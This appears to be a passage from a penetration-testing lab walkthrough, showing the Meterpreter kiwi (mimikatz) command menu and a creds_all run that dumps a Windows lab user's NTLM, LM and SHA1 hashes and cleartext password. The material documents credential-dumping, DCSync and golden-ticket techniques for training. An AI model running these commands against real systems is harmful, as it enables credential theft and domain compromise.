 ```bash
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitrary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)


meterpreter > 
```
Loading kiwi into our meterpreter session will expand our help menu. To retrieve all the credentials, use this command

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
```